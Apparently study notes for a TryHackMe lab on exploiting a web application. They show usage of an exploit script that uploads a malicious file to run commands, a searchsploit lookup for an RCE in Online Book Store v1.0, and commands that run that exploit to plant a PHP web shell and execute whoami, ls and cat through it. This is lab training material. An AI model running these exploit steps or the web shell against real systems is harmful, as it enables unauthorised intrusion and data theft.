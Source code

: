nano exploit.py

mymachine="10.13.37.10"

port="1337"

* Need to provide two arguments when running the exploit.

exploit.py --help

To use this exploit, provide the following arguments:

\-u The URL of the application

\-c the command that you wish to execute

1. Use the exploit to upload a malicious file to the vulnerable application containing whatever command to execute.
   * Web server will run the malicious file to execute the code.
2. The file will first contain a basic command that is used to verify that the exploit has worked.

exploit.py -u http://10.10.10.10 -c "whoami"

www-data

1. Read the contents of a file located on the vulnerable machine.

exploit.py -u http://10.10.10.10 -c "cat flag.txt"

THM{EXPLOIT\_COMPLETE}

### **Practical: Manual Exploitation** <a href="#ij1y8pgauuuf" id="ij1y8pgauuuf"></a>

1. Visit the webserver by navigating to http://10.10.46.162.
2. Find out the version of the application that is running.
   * What is the name and version number of the application?

Online Book Store v1.0

1. Find an exploit that will allow remote access to the vulnerable machine.
   * Used searchsploit to identify RCE vulnerability.

searchsploit -eo ”online book store 1.0”

1. Use the exploit against the vulnerable machine.
   * What is the value of the flag located in a web directory?
     * Ran exploit against URL to create web shell.

python3 Desktop/Additional\ Tools/searchsploit/exploits/php/webapps/47887.py http://10.10.46.162

\* Tested web shell in the browser.

http://10.10.46.162/bootstrap/img/GljxduJguc.php?cmd=whoami

\* Listed directory contents.

http://10.10.46.162/bootstrap/img/GljxduJguc.php?cmd=ls

\* Printed contents of flag.txt file.

http://10.10.46.162/bootstrap/img/GljxduJguc.php?cmd=cat+flag.txt
